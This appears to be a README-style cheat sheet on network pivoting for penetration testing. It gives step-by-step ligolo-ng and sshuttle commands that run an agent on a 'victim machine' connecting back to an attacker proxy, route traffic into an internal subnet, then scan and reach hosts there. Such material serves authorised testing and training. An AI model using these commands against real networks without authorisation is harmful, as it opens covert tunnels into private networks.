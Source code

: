 # Pivoting

# Ligolo-ng
### Download link for ligolo-ng<br/>
Link: https://github.com/nicocha30/ligolo-ng<br/>

### Creating Interface
```
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### PROXY - server needs to be run on attacker machine 
#### start the server
```sudo ./proxy -laddr 0.0.0.0:<port> -selfcert```

### Agent - agent needs to be run on victim machine
#### connect the agent to server
##### windows agent
```.\agent.exe -connect <LHOST>:lport -ignore-cert```
##### linux agent
```./agent -connect <LHOST>:lport -ignore-cert```

### List the sessions
```ligolo-ng » session ``` #list session<br/>
```[Agent : client@client-virtual-machine] » ifconfig``` #check different network interfaces that victim connected
```You will receive result something like below
   ┌───────────────────────────────────────────────┐
   │ Interface 4                                   │
   ├──────────────┬────────────────────────────────┤
   │ Name         │ ens37                          │
   │ Hardware MAC │ 00:0c:29:45:60:ff              │
   │ MTU          │ 1500                           │
   │ Flags        │ up|broadcast|multicast|running │
   │ IPv4 Address │ 10.10.10.148/24                │
   │ IPv6 Address │ fe80::f04d:685d:278c:9642/64   │
   └──────────────┴────────────────────────────────┘
```

### Now to pivot to above example network run
```sudo ip route add ip/24 dev ligolo``` #ip here with above example 10.10.10.0/24

### Finally start the tunnel
```[Agent : client@client-virtual-machine] » tunnel_start```

### Now you can access all the machines inside the above example network 10.10.10.0/24
```sudo nmap 10.10.10.0/24```
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/a703906f-b7db-4a33-b3fd-0bfed798101e)


# Sshuttle<br/>
### Install sshuttle on kali or attacker machine<br/>
``` sudo apt install sshuttle```
### Start the tunnel<br/>
```sudo sshuttle -r targetuser@targermachineip targetpivotnetwork```  #example: sudo sshuttle -r client@192.168.1.20 10.10.10.0/24<br/>
### Now use curl or wget or browser to access pivoted network services<br/>
curl http://pivotnetworkmachineip:port/   #example: curl http://10.10.10.132:80/<br/>
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/2d0da11f-063c-444b-a71c-17c8eec34ca9)
